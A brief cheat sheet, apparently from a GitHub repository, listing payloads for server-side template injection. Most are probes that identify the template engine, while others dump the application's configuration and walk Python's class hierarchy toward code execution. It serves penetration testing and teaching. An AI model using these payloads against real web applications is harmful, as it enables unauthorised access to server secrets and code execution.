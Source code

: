 # SSTI - Server Side Template Injection

![image](https://github.com/zer00d4y/cheatsheets/assets/128820441/c2588b94-23b3-427f-8117-73e98f478881)


`{{7*7}}`

`{{7*'7'}}`

`{{config.items()}}`

`{{config.from_object(‘os’)}}`

`{{‘’.__class__.__mro__[1].__subclasses__()[284:]}}`

`a{*comment*}b`

`${"z".join("ab")}`
